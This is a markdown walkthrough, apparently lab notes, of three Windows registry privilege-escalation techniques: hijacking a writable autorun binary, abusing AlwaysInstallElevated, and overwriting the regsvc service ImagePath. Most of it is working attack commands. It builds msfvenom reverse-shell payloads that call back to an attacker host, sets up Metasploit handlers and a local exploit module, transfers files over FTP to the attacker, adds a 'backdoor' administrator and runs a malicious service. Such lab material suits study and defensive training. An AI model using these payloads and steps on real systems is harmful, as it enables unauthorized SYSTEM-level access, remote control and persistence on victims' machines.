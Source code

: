 # Registry

The Windows Registry is a central hierarchical database in Microsoft Windows that stores configuration settings and options for:

- The operating system (Windows itself)
- Installed software and applications
- User profiles and preferences
- Hardware devices and drivers

In simple words it is brain or blueprint for windows, where almost everything about how the system runs is recorded

## Autorun 

Autorun refers to specific registry keys that tell the operating system to automatically start a program, service, or script when the system boots or when a user logs in. We are going to see any thing run automatically have any permission that is useful for our exploitation 

**Victim**

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
2. In Autoruns, click on the ‘Logon’ tab
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file

here the autorun, accesschk are cis internal tools 

Now we found the file, so we moving for exploitation phase 

**Attacker**

```
// generate a payload for windows reverse shell 
msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_ip -f exe -o program.exe

msfconsole 
use multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost attacker_ip 
option 
run 
```

Now host the payload program.exe using python server in the attacker side and download it in the victim side and replace with the program.exe in the AutoRun folder 

Now log out and sign in again in as high privileged user and now check the meterpreter we gained the reverse shell 

```
// we have gained reverse shell as administrator
getuid 
administrator
```

## Always Install Elevated 

The AlwaysInstallElevated setting is a Windows policy that affects how MSI (Microsoft Installer) packages are installed. When this policy is enabled, Windows Installer packages (.msi files) will always be installed with elevated (Administrator) privileges, even if the user who launches them does not have administrative rights. (AlwaysInstallElevated = 1 for this attack) 

now login as low privileged user in the victim machine 

**Victim**

```
// open cmd and type 
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

// here we can see for both AlwaysInstallElevated is set to 1 so attack is possible 

// To understand the severity we can make a user add which run as high privilege and we can set the new user as administrator
Write-UserAddMSI 

// UserAdd.msi is generated running it we can set a new administrator called backdoor 
net localgroup administrator
backdoor
Administrator 
```

**Attacker** 

Generating the payload 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=attacker_ip -f msi -o setup.msi
```

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost attacker_ip
run 
```

Now transfer the payload setup.msi to the victim windows machine using python server and run the setup.msi in the victim machine. now we gained the reverse shell 

```
// we gain the reverse shell as system 
getuid 
server username: NT AUTHORITY\SYSTEM 

// if we gained reverse shell as low level user then background the session of low level user 
background 
use exploit/windows/local/always_install_elevated 
set session 1 
run
```

## regsvc 

It is a Windows service that allows remote users (with proper permissions) to connect to the Windows Registry and read/write keys over the network 

**Victim** 

```
// open the powershell with bypassing the execution restrictions 
powershell -ep bypass 

// now see there is full control for regsvc for authority\system 
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

// so we found it contains full control so we going add a malicious service which add a administrator account for the attacker 
```

**Attacker** 

we going to get the file in windows and modify it and again run it. Here to get the file from the windows we are going to run a ftp using python 

```
python -m pyftplib -p 21 --write 

// now open cmd from the folder of windows_service.c in the victim machine and connect to the ftp with anonymous
ftp attacker_ip 
put windows_service.c 
```

Now the file is transferred to the attacker machine 

- Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
- Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
- Copy the generated file x.exe, to the Windows VM using python server 

**Again in Victim**

- Place x.exe in ‘C:\Temp’.
- Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
- In the command prompt type: sc start regsvc
- It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
